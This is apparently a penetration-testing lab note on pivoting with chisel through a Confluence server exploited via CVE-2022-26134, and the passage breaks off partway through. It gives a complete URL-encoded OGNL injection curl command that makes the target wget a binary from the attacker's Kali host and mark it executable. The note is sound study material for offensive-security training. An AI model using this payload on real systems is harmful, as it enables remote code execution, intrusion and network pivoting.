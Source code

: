 The entire process will look something like this:
1. download the chisel binary from the GitHub onto Kali machine
2. serve the chisel binary using Apache server (Kali machine)
3. use webshell on `CON01` to fetch the binary from Apache server on Kali machine
4. start *chisel server on Kali machine*
5. use webshell to execute *chisel client* on `CON01`
	1. client needs to connect back to our chisel server to create HTTP tunnel
6. use the chisel HTTP tunnel for *hax*
7. profit
## Serve the Binary
(Once we've already downloaded the [right chisel binary](https://github.com/jpillora/chisel/releases) onto our Kali machine) we have to set up a web server to serve it so we can fetch it from `CON01`. 
### Apache web server
First we need to copy the binary to the Apache *web root* on our  kali machine:
```bash
kali@kali:~$ sudo cp $(which chisel) /var/www/html/
```
### Start web server
Now we can start our Apache web server using `systemctl`:
```bash
kali@kali:~$ sudo systemctl start apache2
[sudo] password for kali: 

kali@kali:~$
```
## Fetch the Binary
Now that we're serving the chisel binary from our machine (using the Apache web server), we need to craft a payload for our web shell *which fetches it*. We can use `wget`:
```bash
wget 192.168.118.4/chisel -O /tmp/chisel && chmod +x /tmp/chisel
```
This command also *ensures the binary is executable* via `chmod`.
### Format for cURL
Assume our webshell injection needs to be [character encoded](../web-apps/character-encoding.md) (based off  [_CVE-2022-26134_](https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html) which we're leveraging to get the web-shell on `CONFLUENCE01`). Our curl command should look like this after encoding the `wget` payload:
```bash
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.118.4/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/

kali@kali:~$ 
```
### Verify
To verify that our injection worked, we can check the Apache server logs. We should see a HTTP [`GET`](../../www/HTTP.md#`GET`) request for `/chisel` (assuming we named the binary `chisel`):
```bash
kali@kali:~$ tail -f /var/log/apache2/access.log
...
192.168.50.63 - - [03/Oct/2023:15:53:16 -0400] "GET /chisel HTTP/1.1" 200 8593795 "-" "Wget/1.20.3 (linux-gnu)"
```
## Execute Chisel
With both binaries on both machines, we can establish our chisel HTTP tunnel. 
### Chisel Server
On our Kali machine we need to start chisel as the server and have it listen to port `8080`. 